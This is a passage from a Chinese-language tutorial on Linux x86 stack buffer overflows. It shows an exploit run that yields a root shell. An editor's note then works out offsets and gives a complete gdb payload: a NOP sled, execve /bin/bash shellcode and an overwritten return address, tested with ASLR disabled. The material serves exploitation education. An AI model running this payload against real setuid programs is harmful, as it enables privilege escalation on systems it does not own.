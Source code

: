 ```  bash
$ python exp.py 
Calling vulnerable program
Input:AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA��������������������������������������������������������������������������������������������������������1�Ph//shh/bin��P��S���
# id
uid=1000(sploitfun) gid=1000(sploitfun) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),109(lpadmin),124(sambashare),1000(sploitfun)
# exit
$
```
注意：为了得到这个root shell，我们舍弃了很多exploit的mitigation方法。其实在整个系列的第一部分，我都特意没用这些exploit的mitigation方法，因为level 1的目标，仅止于普及漏洞知识。如果你真的想学到有意思的知识，就去看Linux (x86)漏洞利用教程系列的第二部分吧！到时候我会教你们如何绕过exploit的mitigation方法。  

## 0x04 编者注
按上面poc 没有验证成功，不过思路是一致的，可以gdb在没 run 之前disassemble main，设置一下第一行汇编的断点，设程序一开始时 esp 是 0xbffffb8c，那么 buf 的结束地址是 0xbffffb80，开辟buf 结束后 esp 是0xbffffa70（sub 0x110），但实际 buf 的起始地址是0xbffffa80（sub 0x100），那么我们总共需要覆盖的范围是 256 + 16(8字节对齐+存放bsp+存放返回地址） = 272 字节，假设我们把 0xbffffb8c 处的返回地址覆盖为0xbffffa80，则可以设置 a80 开始是空指令，然后是 shellcode，即 187 nop + 45 shellcode + 4 地址* 10 = 272 字节。  

```
(gdb) r `python -c 'print "\x90" * 187 + "\x31\xc0\x83\xec\x01\x88\x04\x24\x68\x62\x61\x73\x68\x68\x62\x69\x6e\x2f\x83\xec\x01\xc6\x04\x24\x2f\x89\xe6\x50\x56\xb0\x0b\x89\xf3\x89\xe1\x31\xd2\xcd\x80\xb0\x01\x31\xdb\xcd\x80" + "\x80\xfa\xff\xbf"*10'`

... 不断 si
(gdb) finish
Run till exit from #0  0x080482f6 in ?? ()
main (argc=0, argv=0xbffffc24) at vuln.c:9
9	    return 0;
(gdb) x/x 0xbffffa80
0xbffffa80:	0x90909090
(gdb) x/x 0xbffffb8c
0xbffffb8c:	0xbffffa80

process 20955 is executing new program: /bin/bash
```
### 注意
1. 测试时需要把 /proc/sys/kernel/randomize_va_space 置为0，才能关闭地址随机化。  
2. 其实shellcode地址可以替换为自buffer起始地址和shellcode起始地址之间的任意一个地址。  
3. sub 多申请的16字节空间 是为了函数调用预留参数存放空间，如下所示，两个参数分别是 buf 真正的起始地址[(%esp)]和 命令行参数传入的字符串地址[4(%esp)]。    
```
(gdb) x/4x 0xbffff3c0
0xbffff3c0:	0xd0	0xf3	0xff	0xbf
(gdb) x/4x 0xbffff3c4
0xbffff3c4:	0xdd	0xf6	0xff	0xbf
(gdb) x/s 0xbffff6dd
0xbffff6dd:	 'A' <repeats 200 times>...
```
4. 调用 call printf,strcpy 等共享库函数时并不会把下一行指令的地址压栈，故不会因为覆盖栈内容而导致 ret 链条失败。  
5. 每次参数输入长度不同可能导致堆栈地址不同，如起始的 esp 就会不同。  

## 0x05 其他参考
https://evilpan.com/2018/03/17/exploit-the-stack/
